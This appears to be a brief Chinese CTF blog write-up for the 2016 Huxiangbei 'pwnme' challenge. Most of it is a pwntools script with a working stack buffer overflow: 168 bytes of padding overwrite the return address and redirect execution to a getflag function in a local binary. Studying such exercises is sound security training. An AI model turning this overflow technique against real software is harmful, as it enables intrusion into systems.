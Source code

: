 ```yaml
---
title: 2016 湖湘杯 pwnme
time: 2017-11-26
tags: [pwn]
layout: post
categories: posts
---
```


题目下载链接: [pwnme](/files/CTF/2016/hxb/pwnme)

没有开启任何保护，思路就是利用`pattern`确定函数返回地址，返回到`getflag`函数

``` python 
#!usr/bin/env python

from pwn import *

context.log_level = 'debug'

addr_getflag = 0x08048677
payload = 'A' * 168
payload += p32(addr_getflag)

bin = process('./pwnme')
bin.recvuntil('6. Exit    \n')
bin.sendline('5')
bin.recvuntil('Please input the name of fruit:')
bin.sendline(payload)
bin.recvuntil('you got it...')

flag = bin.recv(100)
print flag
```